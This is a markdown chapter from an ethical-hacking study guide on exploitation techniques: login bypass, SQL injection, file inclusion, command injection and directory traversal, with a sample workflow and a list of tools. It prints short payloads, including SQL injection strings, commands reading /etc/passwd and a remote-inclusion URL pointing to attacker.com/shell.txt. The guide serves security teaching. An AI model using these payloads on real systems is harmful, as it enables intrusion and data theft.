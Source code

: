 
# 602. Exploitation Techniques

Once vulnerabilities are identified, ethical hackers attempt to exploit them to demonstrate risk and assess system resilience. This phase simulates real-world attacks and includes techniques like **bypassing logins** and **extracting sensitive data**.

> ⚠️ *Note: Exploitation should only be performed in controlled environments with full legal authorization.*

---

## 🔐 1. Bypassing Login Authentication

Login bypass attacks aim to access user accounts without valid credentials, usually by exploiting flaws in input validation or authentication logic.

### 🧰 Common Techniques:

#### 1.1 SQL Injection in Login Forms
- Exploits improper validation in login queries.
- Example input:
  ```sql
  ' OR '1'='1
  ```
- May allow login as administrator without password.

#### 1.2 Default Credentials
- Using factory-set usernames and passwords.
- Common in routers, IoT, or poorly secured systems.

#### 1.3 Brute Force and Dictionary Attacks
- Automated attempts to guess credentials.
- Uses precompiled wordlists (e.g., `rockyou.txt`).

#### 1.4 Session Hijacking
- Stealing valid session tokens via XSS or packet sniffing.

#### 1.5 Credential Stuffing
- Reusing leaked credentials from data breaches.

### 🛠 Tools Used:
- Hydra
- Burp Suite
- SQLMap
- Medusa
- John the Ripper

---

## 📂 2. Extracting Data from Vulnerable Systems

After bypassing authentication or exploiting a vulnerability, attackers often aim to **steal, exfiltrate, or view sensitive data**.

### 🧰 Techniques:

#### 2.1 Exploiting SQL Injection for Data Retrieval
- Using advanced payloads to extract DB schema and contents.
  ```sql
  UNION SELECT username, password FROM users
  ```

#### 2.2 File Inclusion Vulnerabilities (LFI/RFI)
- Local File Inclusion: `page=../../etc/passwd`
- Remote File Inclusion: `page=http://attacker.com/shell.txt`

#### 2.3 Command Injection
- Injecting OS commands via unsanitized input.
  ```bash
  ; cat /etc/passwd
  ```

#### 2.4 Directory Traversal
- Accessing restricted files by manipulating path variables.
  ```
  ../../../../windows/system32/config
  ```

#### 2.5 Exploiting Misconfigured APIs
- Unauthenticated access to sensitive endpoints.

---

## 🧪 Sample Workflow

1. Scan and identify login form.
2. Test for SQL injection using `' OR 1=1--`.
3. Access granted without credentials.
4. Use SQLMap to dump tables and extract user data.
5. Export or report findings securely.

---

## 🧰 Common Tools

| Tool         | Purpose                            |
|--------------|------------------------------------|
| SQLMap       | Automated SQL injection            |
| Burp Suite   | Intercept, modify, and test inputs |
| Hydra        | Brute-force login credentials      |
| John the Ripper | Password cracking               |
| Nikto        | Vulnerability scanning             |

---

## 📘 Best Practices for Ethical Hackers

- Always **document each exploit** and its impact.
- Never extract real data from production systems unless authorized.
- Use **non-destructive payloads** where possible.
- Provide **mitigation recommendations** after testing.

> ✅ *Remember: The goal is to improve security, not cause damage.*

